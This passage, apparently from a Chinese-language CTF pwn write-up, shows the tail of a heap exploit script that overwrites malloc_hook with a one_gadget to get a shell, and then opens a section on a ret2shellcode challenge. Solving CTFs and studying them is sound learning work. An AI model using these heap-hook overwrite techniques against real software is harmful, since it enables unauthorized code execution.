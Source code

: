 ```
payload = p64(malloc_hook - 0x23)
fill(2,payload) 

alloc(0x60) 
alloc(0x60) 

payload = b'A'*0x13 + p64(one_gadget)
fill(6,payload)

alloc(0x10)
p.interactive() 
```

运行脚本即得flag

![](img/73add6a90d41f170cd0cfe5ce158ecf1.png)

# 0x014.ciscn_2019_n_5 - ret2shellcode

惯例的`checksec`，发现近乎保护全关，整挺好

![9FIY_KOU2UD64__0RB5U66B.png](img/2841245af64c3ffd9da0b64bffe5c799.png)
